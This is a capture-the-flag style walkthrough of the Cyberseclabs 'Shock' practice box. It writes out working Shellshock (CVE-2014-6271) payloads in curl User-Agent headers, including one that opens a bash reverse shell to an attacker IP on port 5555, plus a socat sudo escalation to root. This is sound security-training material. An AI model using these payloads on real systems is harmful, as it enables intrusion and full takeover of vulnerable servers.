


In this walkthrough, we'll go over a beginner level box called ***Shock*** on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).


Let's start the scanning process with nmap:
```bash
nmap -sTV -sC -n 172.31.1.3
```


We can see that the port 80 open and it looks like a restaurant website is being served on this port:


We can start a directory enumeration on this site to see if we can find anything else. We can use the following `sudo dirsearch  -u http://172.31.1.3 -r -f -t 100 -x 403`:


We find ***cgi-bin*** folder is present. Maybe it is vulnerable to the Shell Shock vulnerability. We can easily test it with nmap `sudo nmap --script http-shellshock --script-args uri=/cgi-bin/test.cgi 172.31.1.3 -p 80`:


It looks like this machine is vulnerable to CVE-2014-6271 which is the Shell Shock vulnerability. Let's see if we can list the local directories with `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -la;'" http://172.31.1.3/cgi-bin/test.cgi`:


Let's start a nc listener on port 5555 `nc -nvlp 5555` and then run the following command to get a reverse shell `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.0.18/5555 0>&1;'" http://172.31.1.3/cgi-bin/test.cgi`:


I also wrote a Python exploit for this vulnerability which we can use it on this box. You can find [EffectiveShellShocker here](https://github.com/sinanozdemir/effectiveShellShocker) after cloning it, we can use the following to receive a shell back on port 5555:


As we can see we are www-data user, let's see if we can run any commands as another user `sudo -l`:


We can become root by running the following `sudo socat stdin exec:/bin/sh`:


I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
